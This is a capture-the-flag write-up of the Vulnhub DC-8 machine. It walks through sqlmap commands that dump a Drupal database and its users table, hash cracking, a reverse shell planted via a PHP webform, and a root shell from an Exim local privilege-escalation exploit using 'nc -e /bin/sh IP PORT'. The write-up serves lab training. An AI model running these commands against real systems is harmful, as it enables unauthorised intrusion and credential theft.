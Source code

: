 ```yaml
---
layout: post
title: Vulnhub - DC-8 writeup
date: 2019-09-06 7:42 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/">DC-8</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7"> DCAU7</a></h4>

## Nmap

![](images/dc8/nmap.png)

only two ports are open. A SSH service and a HTTP service with a `robots.txt` file present.

***

## HTTP

![](images/dc8/website.png)

There was something odd. The links on the left side resulted in `IP/?nid=2` type of URL but links with same name on the header caused in URLs of type `IP/node/2`. So I Checked the `?nid=` type URLs for LFI and got some SQL related error.

![](images/dc8/error.png)

And since it's related to SQL I decided to run SQLmap on it.

Sqlmap found `nid` to be vulnerable and using that I got 2 DB in output.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 --dbs `

![](images/dc8/database.png)

I used the `d7db` DB to dump all the tables in it. In output I got `88` tables.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db --tables`

![](images/dc8/tables.png)

The first table I dumped was `users` in which I found 3 users along with their password hash.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db -T users --dump`

![](images/dc8/users.png)

I saved those hashes to a file and ran `John` on it.

![](images/dc8/crack.png)

`john:turtle`

So Now we have credential which we can use to login in Drupal. The login page can be found on `/user/login/`

![](images/dc8/login.png)

After spending lot of time I figure out that we need to edit the `form-setting` and change the `text format` to `php code`.

![](images/dc8/form-settings.png)

And then we can submit the form which will trigger the reverse shell.

![](images/dc8/submit-random.png)

__NOTE__: Make sure to have some random text above your PHP code. If you have only php code in that(`Submission setting`) section then submitting the form won't trigger any thing.
Thanks to __[@DCAU7](https://twitter.com/DCAU7)__ for pointing that out.

If you did everything right then after submitting a random `Contact us` form info you'll get the reverse shell.

![](images/dc8/rev.png)

***

## Privilege escalation

I ran the enumeration script but didn't find anything good. I tried looking for everything like sudo right or SUIDs but I found nothing.

After sometime [@DCAU7](https://twitter.com/DCAU7) and [@theart42](https://twitter.com/theart42) told me that we have to exploit `exim4` binary.

We can see `exim4` is set as SUID

![](images/dc8/suid.png)

To see the exact version of `exim4` we can use `dpkg -l`

![](images/dc8/dpkg.png)

Since the version is `4.89` we can use [Exim 4.87 - 4.91 - Local Privilege Escalation](https://www.exploit-db.com/exploits/46996).

Download the exploit and run it as `bash exploit.sh -m netcat` and the moment you get the message saying localhost is opened run command like `nc -e /bin/sh IP PORT` to get the root shell.

![](images/dc8/run-exp.png)

After running that nc command I got root shell on my `nc` listener.

![](images/dc8/root-shell.png)

Now get the root flag

![](images/dc8/root.png)

***

This was an awesome machine. The method to get the reverse shell was amazing, because even though in `drupal 8` the PHP code exec thing is removed from core we still were able to run that kind of code, that is because of giving editing access `john` had.

Also the root part kinda new too me because I never exploited exim4 before even if it was marked as SUID, but as [@theart42](https://twitter.com/theart42) said `Version of the binary also matters`.

Thanks to [@DCAU7](https://twitter.com/DCAU7) for this awesome addition to the awesome series.Also thanks to [@theart42](https://twitter.com/theart42).

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
